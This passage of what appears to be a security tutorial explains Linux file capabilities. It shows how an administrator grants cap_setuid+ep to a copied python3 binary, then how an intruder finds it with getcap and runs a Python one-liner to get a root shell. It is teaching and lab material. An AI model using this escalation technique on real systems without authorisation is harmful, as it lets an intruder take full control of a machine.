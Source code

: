 ```
getcap -r / 2>/dev/null
```

![](https://i0.wp.com/1.bp.blogspot.com/-ZEpLdVo1unQ/XeIpVEop_nI/AAAAAAAAht4/P7LY6p2JIrYVgV1um23_okYBDgQDHfluwCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

**List of Capability**

On the basis of functionality, the capability is categorized into total 36 in the count. Some of the majorly used are shown below.

![](https://i1.wp.com/1.bp.blogspot.com/-b2lP_MwsxDs/XeIpVZoQULI/AAAAAAAAht8/8k2iTTw5eZwb8QQnaU8NF23ODrv1dwUsACLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

### **Abusing Capabilities** **Privilege Escalations**

**Python Capability**

Suppose the system administrator wants to grant superuser permission for any binary program, let’s say for python3, which should only be available to a specific user, and admin doesn’t want to give SUID or sudo permission. The admin supposed to used capabilities, for the python3 program that should be executed by specific user let’s say for user “demo”. This can be accomplished with following commands on the host machine.

```
which python3  
cp /usr/bin/python3 /home/demo/  
setcap cap\_setuid+ep /home/demo/python3
```

As a result, the user demo received the privilege to run the python3 program as root because here admin has upraised the privilege by using cap\_setuid+ep which means all privilege is assigned to the user for that program. But if you will try to find 4000 permission files or programs then it might not be shown for /home/dome/python3.

**_Note:_** _the user home directory should be not accessible for other users because if it is accessed to other non-root users then other users will also proficient to take the privilege of capabilities set for user demo._

![](https://i1.wp.com/1.bp.blogspot.com/-_NY5PVXGp98/XeIpVhInt1I/AAAAAAAAhuA/zv3csezeN-YLPTlqcoU_9jI98LKPTjaAQCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

**Exploiting capability using python3**

Assuming an intruder has compromised the host machine as local user and spawn the least privilege shell and he looked for system capabilities and found empty capability (ep) over suid is given python3 for user demo that means all privilege is assigned to user for that program, therefore taking advantage of this permission he can escalate into high privilege from low privilege shell.

```
getcap -r / 2>/dev/null  
pwd  
ls -al python3  
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash ")'  
id
```

Hence you can observe the local user demo has accessed the root shell as shown in the given image.

